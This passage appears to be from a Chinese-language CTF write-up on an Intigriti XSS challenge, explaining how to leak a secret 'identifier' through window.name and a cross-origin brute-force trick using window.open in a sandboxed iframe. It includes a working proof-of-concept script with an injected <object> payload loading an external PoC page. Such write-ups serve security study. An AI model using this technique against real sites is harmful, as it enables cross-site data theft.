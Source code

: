 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e0c7265f1468262f.png)

可以看到，该payload成功定位到`identifier`的第一位值。现在需要构造循环，通过13次上述操作（长度为13位），将`identifier`的值全部泄露出来，每个循环开始前还需要将`window.name`归零。

当我们将外部POC页面嵌入题目页面后，尝试利用POC页面获取`top.name`来控制题目页面`window.name`的时候，发现跨域拦截：

[![](https://p0.ssl.qhimg.com/t01e45d7ab2e342619d.png)](https://p0.ssl.qhimg.com/t01e45d7ab2e342619d.png)

那么，现在还需要突破跨域获取`top.name`的限制。经过大量的尝试，一直到提交期截止，也没能找到合适的方式，来捕获用于泄露`identifier`的`window.name`。因为不重新加载窗口的情况下，直接读取跨源资源的`window.name`是不可能的。

通过对赛后POC的思路启发，这里利用了一个特别巧妙的方法。举个例子，当我们执行`window.open("http://XXXX",66)`时，就会弹出一个`window.name='66'`的窗口。但如果已经有一个窗口为`66`，就会执行重定向到该窗口而不是重新弹出。有了这个特性，可以通过一种“试”的方法，暴力测试我们想要获取的题目页面的`window.name`。

这里使用了一个`&lt;iframe sanbox=...&gt;` 来调用`window.open()`，允许top导航变化，但会禁止弹出。

```
&lt;iframe sandbox="allow-scripts allow-top-navigation allow-same-origin" name="xss"&gt;&lt;/iframe&gt;
```

同时，当测试出的`window.name`值与实际值一致时，防止真的重定向发生，设置一个无效的协议`xxxx://no-trigger`。这里进行一个简单的验证，例如打开一个`window.name='6'` 的题目页面，通过`&lt;object`payload 将poc.html嵌入，poc.html首内包含测试`window.name`值的代码：

```
&lt;script&gt;
window.open("https://challenge-0421.intigriti.io/?error=&lt;object data='https://xss-poc.***/poc.html'&gt;&lt;/object&gt;",3)

function getTopName() `{`
  let i = 0;
  for (; i &lt; 10; i++) `{`
    let res =  ( () =&gt; `{`
      let x;
      try `{`
        // shouldn't trigger new navigation
        x = xss.open('xss://xss', i);
        // this is for firefox
        if (x !== null) return 1;
        return;
      `}` catch (e) `{``}`
    `}`)();
    if (res) break;
  `}`
  return i;
`}`

topName = getTopName();
console.log("top_window.name"+topName);
&lt;/script&gt;
```
